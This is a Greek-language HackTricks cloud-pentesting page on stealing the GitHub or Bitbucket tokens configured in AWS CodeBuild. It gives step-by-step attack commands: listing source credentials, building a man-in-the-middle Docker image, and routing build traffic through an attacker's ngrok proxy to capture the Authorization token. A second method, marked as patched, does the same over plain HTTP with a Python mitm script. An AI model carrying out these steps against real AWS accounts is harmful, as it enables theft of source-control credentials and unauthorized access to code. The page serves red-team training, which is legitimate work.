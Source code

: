 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Δείτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## Ανακτήστε τα Github/Bitbucket Configured Tokens

Πρώτα, ελέγξτε αν υπάρχουν διαμορφωμένα source credentials που θα μπορούσατε να διαρρεύσετε:
```bash
aws codebuild list-source-credentials
```
### Μέσω Docker Image

Αν διαπιστώσετε ότι η αυθεντικοποίηση για παράδειγμα στο Github είναι ρυθμισμένη στον λογαριασμό, μπορείτε να **εξάγετε** αυτή την **πρόσβαση** (**GH token ή OAuth token**) κάνοντας το Codebuild να **χρησιμοποιήσει μια συγκεκριμένη docker image** για να εκτελέσει την κατασκευή του έργου.

Για αυτόν τον σκοπό μπορείτε να **δημιουργήσετε ένα νέο Codebuild project** ή να αλλάξετε το **περιβάλλον** ενός υπάρχοντος για να ρυθμίσετε την **Docker image**.

Η Docker image που μπορείτε να χρησιμοποιήσετε είναι [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Αυτή είναι μια πολύ βασική Docker image που θα ρυθμίσει τις **env variables `https_proxy`**, **`http_proxy`** και **`SSL_CERT_FILE`**. Αυτό θα σας επιτρέψει να αναχαιτίσετε το μεγαλύτερο μέρος της κυκλοφορίας του host που υποδεικνύεται στα **`https_proxy`** και **`http_proxy`** και να εμπιστευτείτε το SSL CERT που υποδεικνύεται στο **`SSL_CERT_FILE`**.

1. **Δημιουργήστε & Ανεβάστε τη δική σας Docker MitM image**
* Ακολουθήστε τις οδηγίες του repo για να ρυθμίσετε τη διεύθυνση IP του proxy σας και να ρυθμίσετε το SSL cert σας και **δημιουργήστε την docker image**.
* **ΜΗΝ ΡΥΘΜΙΣΕΤΕ το `http_proxy`** για να μην αναχαιτίσετε αιτήματα στο metadata endpoint.
* Μπορείτε να χρησιμοποιήσετε **`ngrok`** όπως `ngrok tcp 4444` για να ρυθμίσετε τον proxy στον host σας.
* Μόλις δημιουργήσετε την Docker image, **ανεβάστε την σε ένα δημόσιο repo** (Dockerhub, ECR...)
2. **Ρυθμίστε το περιβάλλον**
* Δημιουργήστε ένα **νέο Codebuild project** ή **τροποποιήστε** το περιβάλλον ενός υπάρχοντος.
* Ρυθμίστε το project να χρησιμοποιεί την **προηγουμένως δημιουργημένη Docker image**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ρυθμίστε τον MitM proxy στον host σας**

* Όπως υποδεικνύεται στο **Github repo** μπορείτε να χρησιμοποιήσετε κάτι σαν:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Η **έκδοση mitmproxy που χρησιμοποιήθηκε ήταν η 9.0.1**, αναφέρθηκε ότι με την έκδοση 10 αυτό μπορεί να μην λειτουργεί.
{% endhint %}

4. **Εκτελέστε το build & καταγράψτε τα διαπιστευτήρια**

*   Μπορείτε να δείτε το token στην κεφαλίδα **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Αυτό θα μπορούσε επίσης να γίνει από το aws cli με κάτι σαν

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Αυτή η ευπάθεια διορθώθηκε από την AWS κάποια στιγμή την εβδομάδα της 20ης Φεβρουαρίου 2023 (νομίζω την Παρασκευή). Έτσι, ένας επιτιθέμενος δεν μπορεί να την εκμεταλλευτεί πλέον :)**
{% endhint %}

Ένας επιτιθέμενος με **αυξημένα δικαιώματα σε ένα CodeBuild θα μπορούσε να διαρρεύσει το Github/Bitbucket token** που έχει διαμορφωθεί ή αν τα δικαιώματα έχουν διαμορφωθεί μέσω OAuth, το **προσωρινό OAuth token που χρησιμοποιείται για την πρόσβαση στον κώδικα**.

* Ένας επιτιθέμενος θα μπορούσε να προσθέσει τις μεταβλητές περιβάλλοντος **http\_proxy** και **https\_proxy** στο έργο CodeBuild που δείχνουν στη μηχανή του (για παράδειγμα `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Στη συνέχεια, αλλάξτε τη διεύθυνση URL του αποθετηρίου github για να χρησιμοποιήσετε HTTP αντί για HTTPS, για παράδειγμα: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Στη συνέχεια, εκτελέστε το βασικό παράδειγμα από [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στη θύρα που υποδεικνύεται από τις μεταβλητές proxy (http\_proxy και https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Τέλος, κάντε κλικ στο **Build the project**, τα **credentials** θα **σταλούν σε απλό κείμενο** (base64) στη θύρα mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Τώρα ένας επιτιθέμενος θα μπορεί να χρησιμοποιήσει το token από τη μηχανή του, να καταγράψει όλα τα προνόμια που έχει και να τα (κατα)χρησιμοποιήσει πιο εύκολα από το να χρησιμοποιήσει την υπηρεσία CodeBuild απευθείας.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Δείτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
